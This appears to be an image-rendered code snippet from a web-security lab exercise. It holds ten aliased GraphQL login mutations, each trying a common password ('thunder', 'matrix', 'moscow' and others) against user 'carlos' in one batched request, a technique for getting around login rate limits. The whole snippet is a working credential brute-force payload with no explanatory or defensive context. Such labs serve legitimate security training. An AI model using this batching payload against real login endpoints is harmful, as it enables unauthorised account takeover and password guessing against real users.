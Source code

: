 ```plain


bruteforce90:login(input:{password: "thunder", username: "carlos"}) {
        token
        success
    }


bruteforce91:login(input:{password: "taylor", username: "carlos"}) {
        token
        success
    }


bruteforce92:login(input:{password: "matrix", username: "carlos"}) {
        token
        success
    }


bruteforce93:login(input:{password: "mobilemail", username: "carlos"}) {
        token
        success
    }


bruteforce94:login(input:{password: "mom", username: "carlos"}) {
        token
        success
    }


bruteforce95:login(input:{password: "monitor", username: "carlos"}) {
        token
        success
    }


bruteforce96:login(input:{password: "monitoring", username: "carlos"}) {
        token
        success
    }


bruteforce97:login(input:{password: "montana", username: "carlos"}) {
        token
        success
    }


bruteforce98:login(input:{password: "moon", username: "carlos"}) {
        token
        success
    }


bruteforce99:login(input:{password: "moscow", username: "carlos"}) {
        token
        success
    }
```

